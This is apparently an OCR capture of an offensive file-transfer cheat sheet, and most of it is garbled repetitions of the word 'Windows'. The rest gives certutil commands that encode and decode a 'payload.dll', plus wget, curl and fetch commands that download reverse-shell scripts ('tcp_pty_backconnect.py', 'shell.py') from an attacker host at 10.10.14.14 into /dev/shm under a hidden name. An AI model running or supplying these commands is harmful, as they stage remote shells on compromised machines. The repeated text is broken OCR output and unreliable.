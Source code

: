**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**Windows** 

**
```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```
## HTTP

**Linux**
```bash
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```
**Windows** 
